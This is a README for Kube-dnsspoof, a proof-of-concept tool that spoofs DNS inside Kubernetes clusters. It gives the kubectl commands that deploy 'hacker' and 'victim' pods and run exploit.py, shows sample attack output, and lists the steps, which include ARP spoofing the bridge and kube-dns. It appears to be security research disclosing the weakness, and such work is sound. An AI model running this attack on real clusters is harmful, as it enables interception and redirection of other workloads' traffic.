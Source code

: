 # Kube-Dnsspoof

`Credit:` https://github.com/danielsagi

Kube-dnsspoof is a POC for DNS spoofing in kubernetes clusters.
This exploit runs with minimum capabilities, on default installations of kuberentes.
This repository contains all files and related code for running this exploit.  

The following video demonstrates how onw can use this to intercept traffic for specifc domains in a cluster:
[![asciicast](https://asciinema.org/a/250310.svg)](https://asciinema.org/a/250310)
Further read on this subject can be done on [this blog post](https://blog.aquasec.com/dns-spoofing-kubernetes-clusters)

## Prerequisites
A Kubernetes cluster


## Run the exploit
  
First, create the pods by:
    
```bash
$ kubectl create -f pods/
pod/hacker created     
pod/victim created   
```

After the pod was created, exec into the hacker pod. it will contain the exploit and hosts file inside the /dnsspoof folder.

```zsh
$ kubectl exec -it hacker zsh
➜  hacker /dnsspoof ls
exploit.py  hosts
➜  hacker /dnsspoof 
```

Next, edit the hosts file to contain your spoofed domains.
The script will proxy all DNS requests to the real kube-dns pod, except for the entries in the hosts file.  

Example for successful run of the exploit:
```zsh
➜  hacker /dnsspoof ./exploit.py
[*] starting attack on indirect mode
Bridge:  172.17.0.1 c0:0f:fe:eb:4b:e0
Kube-dns:  172.17.0.4 02:42:bb:76:74:f8

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```

#### timeouts
When proxying alot of requests, the code can hang. to control this, you can pass a timeout via `--forward-timeout`

The steps of the exploit:
* Deciding whether it can run
* Discovering relevant mac/ip addresses
* ARP spoofing the bridge (and kube-dns in case of direct attack mode)
* DNS proxy requests, and spoofing relevant entries
* Restoring all network on CTRL+C interrupt


